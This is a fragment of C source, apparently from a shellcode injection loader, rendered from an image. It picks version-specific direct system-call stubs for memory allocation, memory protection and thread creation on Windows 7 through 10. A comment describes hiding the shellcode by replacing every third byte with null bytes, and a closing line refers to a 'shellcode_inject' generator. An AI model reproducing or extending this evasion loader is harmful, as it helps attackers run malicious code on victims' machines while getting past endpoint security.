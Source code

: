```c
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory10;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory10;
		NtCreateThread = &NtCreateThread10;
		pWinVerInfo->SystemCall = 0x3F;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.1") == 0 && osInfo.dwBuildNumber == 7601) {
		lpOSVersion = L"7 SP1 or Server 2008 R2";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory7SP1;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory7SP1;
		NtCreateThread = &NtCreateThread7SP1;
		pWinVerInfo->SystemCall = 0x3C;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.2") == 0) {
		lpOSVersion = L"8 or Server 2012";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		exit(1);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		pWinVerInfo->SystemCall = 0x3D;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.3") == 0) {
		lpOSVersion = L"8.1 or Server 2012 R2";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory81;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory81;
		NtCreateThread = &NtCreateThread81;
		pWinVerInfo->SystemCall = 0x3E;
	}
	else {
		wprintf(L"	[!] OS Version not supported.\n\n");
		exit(1);
	}

	/*
	Shellcode 每三个字节替换成\x00 进行加密
	*/
```

[go/shellcode_inject/virtual>>]: generate